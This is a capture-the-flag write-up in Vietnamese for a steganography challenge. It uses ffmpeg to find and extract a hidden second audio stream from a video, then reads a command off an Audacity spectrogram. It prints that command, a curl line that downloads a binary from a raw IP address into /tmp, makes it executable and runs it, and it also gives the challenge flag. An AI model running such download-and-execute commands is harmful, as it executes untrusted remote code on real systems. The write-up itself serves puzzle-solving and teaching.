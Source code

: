 # Sorry, you're NOT a sigma!

## Description:

> The lion says solve this challenge. You seem to have a good track record at doing so.

## Solution:

Mở lên là 1 video không có gì đặc biệt

Sử dụng công cụ **ffmpeg** để phân tích file .mp4

```
ffmpeg -i lion.mp4
```

Ta thấy có 1 điều bất thường là có 2 tream

```
 Stream #0:1[0x2](und): Audio: aac (LC) (mp4a / 0x6134706D), 48000 Hz, stereo, fltp, 128 kb/s (default)
      Metadata:
        handler_name    : SoundHandler
        vendor_id       : [0][0][0][0]
  Stream #0:2[0x3](und): Audio: aac (LC) (mp4a / 0x6134706D), 22050 Hz, stereo, fltp, 121 kb/s
      Metadata:
        handler_name    : SoundHandler
        vendor_id       : [0][0][0][0]
```

Ta thấy stream thứ 2 có chất lượng rất thấp chỉ có tần số 22050 Hz, ta sẽ trích xuất riêng ra

```
ffmpeg -i lion.mp4 -map 0:2 -c copy audio.acc
```

Mở lên ta thấy âm thanh khá dị nên cho vào audacity mở ở chế độ **spectrogram** ta sẽ thấy 1 đoạn lệnh ẩn
![alt text](image-1.png)

```
curl -s http://23.179.17.40:6969/roar -o /tmp/roar && chmod +x /tmp/roar && /tmp/roar

```

![alt text](image.png)

```
flag: CIT{wh3n_th3_l10n_sp34k5_y0u_l1st3n}
```

